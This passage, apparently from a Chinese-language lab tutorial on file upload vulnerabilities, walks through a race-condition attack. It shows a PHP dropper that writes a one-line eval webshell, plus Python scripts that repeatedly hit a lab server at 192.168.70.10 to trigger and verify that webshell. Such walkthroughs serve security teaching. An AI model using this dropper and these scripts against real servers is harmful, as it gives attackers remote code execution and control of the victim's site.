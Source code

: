 >
> ![image-20240831211729541](https://image.201068.xyz/assets/26.文件上传/image-20240831211729541-1725240264248-53.png)
>
> #### burp运行
>
> ![image-20240831214520912](https://image.201068.xyz/assets/26.文件上传/image-20240831214520912-1725240264248-54.png)
>
> #### 不断访问create.php
>
> ##### create.php内容
>
> ```php
> <?php fputs(fopen( 'xxx.php' , 'w' ),'<?php @eval($_POST[ "xxx"])?>');?>
> ```
>
> python脚本对要上传的文件路径进行不断的访问`upload/create.php`，触发创建webshell文件操作
>
> 不断访问该文件就是利用时间差会在目录下生成一个`xxx.php`，
>
> ##### create.py内容
>
> ```python
> import requests
> 
> while True:
> 	url = "http://192.168.70.10/upload/create.php"
> 	try:
> 		requests.get(url)
> 	except:
> 		pass
> ```
>
> #### 访问xxx.php
>
> 验证webshell文件是否创建成功
>
> 使用`python`脚本不断请求`xxx.php`，直到状态码为`200`
>
> ##### request.py内容
>
> ```python
> import requests
> 
> url = "http://192.168.70.10//upload/xxx.php"
> 
> while True:
>     try:
>         response = requests.post(url)
>         if response.status_code == 200:
>             print("ok")
>         break
>     except:
>         pass
> ```
>
> #### python脚本运行
>
> ![image-20240831214237854](https://image.201068.xyz/assets/26.文件上传/image-20240831214237854-1725240264248-55.png)
>
> ![image-20240831214258914](https://image.201068.xyz/assets/26.文件上传/image-20240831214258914-1725240264248-56.png)